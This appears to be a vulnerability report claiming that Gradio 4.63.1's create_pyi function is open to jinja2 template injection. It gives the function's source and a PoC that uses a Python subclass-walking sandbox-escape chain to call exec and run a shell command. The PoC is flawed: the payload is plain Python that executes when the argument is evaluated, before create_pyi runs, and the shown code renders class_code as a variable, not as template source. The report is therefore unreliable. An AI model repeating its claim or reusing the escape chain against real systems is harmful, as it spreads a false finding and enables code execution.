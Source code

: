 ### version

4.63.1

### description

When users generate pyi, they do not check the input, which leads to code injection by jinja2 during rendering.

### Source code

```python
def create_pyi(class_code: str, events: list[EventListener | str]):
    template = Template(INTERFACE_TEMPLATE)
    events = [e if isinstance(e, str) else e.event_name for e in events]
    return template.render(events=events, contents=class_code)
```

PoC:

```python
import gradio as gr

# Define the events
events = ["on_load"]

pyi_code = gr.component_meta.create_pyi(''.__class__.__base__.__subclasses__()[139].__init__.__globals__['__builtins__']['exec']('import os; os.system("id")') , events)
```

### Impact:

The vulnerability allows attackers to execute arbitrary code.
